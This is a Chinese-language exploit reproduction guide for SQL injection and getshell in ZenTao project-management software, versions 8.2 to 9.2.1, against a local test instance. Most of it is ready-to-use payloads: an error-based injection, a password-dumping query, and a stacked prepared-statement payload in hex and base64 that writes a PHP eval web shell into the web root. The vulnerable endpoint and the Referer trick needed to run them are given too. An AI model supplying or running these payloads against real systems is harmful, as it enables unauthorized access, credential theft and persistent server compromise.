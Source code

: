 # 禅道 8.2-9.2.1 注入&getshell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

我这里用的官方集成环境版本8.4

获取版本号：`/index.php?mode=getconfig`

![](images/15897249519327.jpg)


绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![](images/15897249592767.jpg)


没路径的报错exp：


```json
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"}
```

base64加密：


```bash
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0=
```

EXP


```bash
提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64
```

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：http://127.0.0.1:81/zentao/

注入显密码：


```json
{"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"}
```

base64加密：


```bash
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
```

不知道什么原因，本地复现无账号密码回显。。

![](images/15897250140147.jpg)


前台GetShell：


```json
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：


```sql
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php'
```

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）


```bash
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027
```

base64加密：


```bash
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
```

访问之即可在目录下生成hack.php：

![](images/15897250593788.jpg)
